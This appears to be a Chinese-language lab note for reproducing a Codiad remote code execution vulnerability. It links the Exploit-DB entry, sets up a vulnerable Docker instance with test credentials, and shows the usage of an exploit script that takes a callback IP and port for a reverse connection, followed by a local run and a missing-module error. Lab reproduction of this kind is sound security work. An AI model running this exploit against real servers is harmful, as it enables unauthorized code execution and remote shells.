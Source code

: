 ## 漏洞详情 ##

https://www.exploit-db.com/exploits/49705


## 环境搭建 ##
参考：https://hub.docker.com/r/wernight/codiad

docker-compose.yml 由这条命令改写而成：docker run --rm -p 8080:80 -v /etc/localtime:/etc/localtime:ro -v $PWD/code:/code wernight/codiad


第一次初始化的话，账号密码随便设置

我设置的：
账号：test
密码：123



## 漏洞利用 ##

```
Usage : 
        python exploit.py [URL] [USERNAME] [PASSWORD] [IP] [PORT] [PLATFORM]
        python exploit.py [URL:PORT] [USERNAME] [PASSWORD] [IP] [PORT] [PLATFORM]
Example : 
        python exploit.py http://localhost/ admin admin 8.8.8.8 8888 linux
        python exploit.py http://localhost:8080/ admin admin 8.8.8.8 8888 windows
Author : 
        https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit
```


python exploit.py http://localhost:8080/ test 123 172.16.10.159 8888 linux


ImportError: No module named requests
Use $ pip install requests (or pip3 install requests for python3) 